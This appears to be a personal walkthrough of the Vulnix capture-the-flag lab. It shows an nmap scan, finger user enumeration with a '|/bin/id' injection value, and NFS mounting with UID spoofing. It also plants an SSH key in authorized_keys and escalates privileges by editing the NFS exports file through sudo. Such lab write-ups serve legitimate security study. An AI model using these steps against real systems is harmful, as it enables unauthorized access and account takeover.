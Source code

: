 #nfs #rpc-bind
# nmap
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp    open  smtp       Postfix smtpd
|_ssl-date: 2023-09-02T11:53:02+00:00; -1h38m53s from scanner time.
| ssl-cert: Subject: commonName=vulnix
| Not valid before: 2012-09-02T17:40:12
|_Not valid after:  2022-08-31T17:40:12
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
79/tcp    open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp   open  pop3       Dovecot pop3d
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_pop3-capabilities: TOP PIPELINING RESP-CODES STLS SASL CAPA UIDL
|_ssl-date: 2023-09-02T11:53:02+00:00; -1h38m53s from scanner time.
111/tcp   open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      32768/tcp   mountd
|   100005  1,2,3      35592/udp6  mountd
|   100005  1,2,3      35616/tcp6  mountd
|   100005  1,2,3      40963/udp   mountd
|   100021  1,3,4      39338/udp   nlockmgr
|   100021  1,3,4      50638/udp6  nlockmgr
|   100021  1,3,4      52919/tcp6  nlockmgr
|   100021  1,3,4      60902/tcp   nlockmgr
|   100024  1          43049/udp6  status
|   100024  1          47654/tcp   status
|   100024  1          48479/tcp6  status
|   100024  1          48906/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
143/tcp   open  imap       Dovecot imapd
|_imap-capabilities: STARTTLS OK LITERAL+ have more IDLE post-login IMAP4rev1 ID LOGIN-REFERRALS LOGINDISABLEDA0001 ENABLE listed capabilities Pre-login SASL-IR
|_ssl-date: 2023-09-02T11:53:02+00:00; -1h38m53s from scanner time.
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
512/tcp   open  exec       netkit-rsh rexecd
513/tcp   open  login
514/tcp   open  tcpwrapped
993/tcp   open  ssl/imap   Dovecot imapd
|_imap-capabilities: more AUTH=PLAINA0001 LITERAL+ have IDLE post-login IMAP4rev1 ID LOGIN-REFERRALS Pre-login ENABLE listed capabilities OK SASL-IR
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2023-09-02T11:53:02+00:00; -1h38m53s from scanner time.
995/tcp   open  ssl/pop3   Dovecot pop3d
|_pop3-capabilities: TOP PIPELINING RESP-CODES USER SASL(PLAIN) CAPA UIDL
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2023-09-02T11:53:02+00:00; -1h38m53s from scanner time.
2049/tcp  open  nfs        2-4 (RPC #100003)
32768/tcp open  mountd     1-3 (RPC #100005)
39117/tcp open  mountd     1-3 (RPC #100005)
44704/tcp open  mountd     1-3 (RPC #100005)
47654/tcp open  status     1 (RPC #100024)
60902/tcp open  nlockmgr   1-4 (RPC #100021)
```

While trying a bit on smtp port , sought to access the finger port :
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902195426.png]]
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902213102.png]]

![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902212457.png]]

```bash
for q in 'root' 'admin' 'user' '0' "'a b c d e f g h'" '|/bin/id';do echo "FINGER: $q"; finger "$q@192.168.1.20"; echo -e "\n";done
```

we also see that there's nfs running so we try to mount it:
```
mount -t nfs 192.168.1.20:/ ./tempd -o nolock
```
we also need to make uid manipulation:
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902205653.png]]
```
openssl s_client -connect 192.168.1.20:995 -crlf -quiet 
```
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902230220.png]]
MAIL from: must be from someone else , and we need to give proper mail template
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902230539.png]]
This could be a potential , as if root user would have opened the mail we could have got the shell like this:
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902231053.png]]
but since there's no one reading the mail , no cron job, learn from here: 
`https://attackdefense.com/challengedetailsnoauth?cid=516`

PS: don't give the above command:
```
sudo mount 192.168.1.20:/home/vulnix /mnt/vulnix -o vers=3
```
:🤯🤯🤯🤯🤯  DUE TO THE VERSION BEING UPDATED THE MOUNT UTILITY FOR SAFETY PURPOSES , AUTO LOCKED THE DIRECTORY WITH NOBODY AND NOGROUP 🤯🤯🤯🤯🤯🤯
so use vers=3
while the blog from 2016 had no problem:
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902233342.png]]
add the user:
```
sudo adduser -u 2008 vulnix
```
then :
```
ssh-keygen -t ssh-rsa
```
after it:
```
cp ~/.ssh/id_rsa.pub ./vulnix/.ssh/authorized_keys
```
Since the ssh is old:
```
ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i id_rsa vulnix@192.168.1.20
```

# Priv esc:
just do sudo -l and see that a file is editible, this is the same file that specifies that what to mount on nfs. and with whose privileges , just edit the file and mount root folder
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230903002812.png]]
![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230903002945.png]]

# last option:
bruteforcing is the last option
user enum list with finger and passwordlist: rockyou

![[walkthroughs/Vulnhub/Vulnix/IMG/Pasted image 20230902233427.png]]
RABBIT HOLE!!!!!